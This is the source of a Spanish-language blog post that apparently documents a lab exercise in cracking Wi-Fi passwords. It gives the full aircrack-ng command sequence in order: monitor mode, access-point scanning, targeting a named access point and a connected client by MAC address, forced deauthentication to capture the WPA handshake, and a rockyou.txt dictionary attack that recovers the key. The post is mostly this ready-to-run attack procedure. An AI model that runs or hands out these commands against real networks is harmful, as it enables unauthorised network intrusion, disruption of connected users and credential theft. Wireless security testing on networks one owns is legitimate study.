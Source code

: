 ```yaml
---
layout: post
title: Hacking Wifi
date: 2024-04-06 12:24:23 +0900
category: sample
vm: linux
---
```


### **1)** Vemos nuestra interfaz de red wifi
```
     iwconfig 
```
![iwconfig](/notas/public/img/hwifi/iwconfig.png)

<br>

### **2)** Le cambiamos el ESSID para no complicarnos
```
    sudo ip link set dev wlxb4b0240921e2 name wlan0

    iwconfig 
```
 ![essid](/notas/public/img/hwifi/essid_modify.png)

<br>

### **3)** Eliminamos procesos 'conflictivos'
```
    sudo airmon-ng check kill
```
![kill](/notas/public/img/hwifi/kill_process.png)


<br>

### **4)** Iniciamos el modo monitor
```
    sudo airmon-ng start wlan0
```
![start](/notas/public/img/hwifi/start_mode.png)

_> El nombre de nuestra interface puede variar, en este caso se mantiene._

<br>

### **5)** Escuchamos los Puntos de Acceso (AP)
```
    sudo airodump-ng wlan0
```
![listen](/notas/public/img/hwifi/listen_wifi.png)

- **Mi_wifi** _AP victima_
    - **FC:A6:21:D5:D8:17** - Mac
    - **11** - Canal 


<br>

### **6)** Vemos los dispositivos del AP objetivo
```
    sudo airodump-ng -c 11 --bssid FC:A6:21:D5:D8:17 -w save_prueba wlan0
```
![devices](/notas/public/img/hwifi/devices_wifi.png)

_En este caso hay un dispositivo movil conectado._

- **44:6D:6C:35:40:DB** - Mac del Dispositivo dentro del AP Mi_Wifi

<br>

### **7)** Desautenticamos al usuario del punto de acceso
```
    sudo aireplay-ng --deauth 5 -a FC:A6:21:D5:D8:17 -c 44:6D:6C:35:40:DB wlan0
```
![handshake](/notas/public/img/hwifi/handshake.png)

_Tenemos el handshake, donde viaja 'la contraseña cifrada'_

- Listamos el reporte:

```
    ls
```

![cap](/notas/public/img/hwifi/save_cap.png)

<br>

### **8)** Aplicamos fuerza bruta para obtener la contraseña
```
    sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b FC:A6:21:D5:D8:17 save_prueba-01.cap
```
![key](/notas/public/img/hwifi/key.png)

